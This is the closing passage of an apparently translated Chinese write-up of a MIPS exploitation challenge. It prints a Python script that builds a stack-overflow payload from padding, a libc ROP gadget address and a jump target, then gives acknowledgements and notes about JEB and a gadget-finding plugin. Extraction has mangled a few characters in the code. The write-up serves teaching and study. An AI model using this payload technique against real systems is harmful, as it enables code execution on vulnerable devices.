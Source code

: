 

```
#!/usr/bin/python 
import struct
# LW $t9, 0($sp); JALR $t9; 
gadget_offset = 0x6b20 
libc_base = 0x77eea000 
gadget_addr = struct.pack("&lt;I", libc_base + gadget_offset) 
payload = "" 
payload += "A"*204 # padding 
payload += gadget_addr 
payload += "x50x09x40" 
with open("input", "wb") as f:
    f.write(payload)
```

代码执行结果如下图所示：

[![](https://p2.ssl.qhimg.com/t017d8b1ab1870b0adb.png)](https://p2.ssl.qhimg.com/t017d8b1ab1870b0adb.png)

大功告成，一切非常顺利。

<br>

**七、致谢**

非常感谢[**@b1ack0wl**](https://twitter.com/b1ack0wl)在挑战上给予我的帮助，也感谢[**@yrp604**](https://twitter.com/yrp604)帮忙审查这篇文章。此外，[**@joancalvet**](https://twitter.com/joancalvet)也是本文的联合作者之一。



**八、备注**

[1] 这篇文章中，我们使用的是JEB 2.3.3版，该版本将于8月21日-25日期间公布。

[2] 我将于本周晚些时候将gadget查找插件公布在GitHub上。
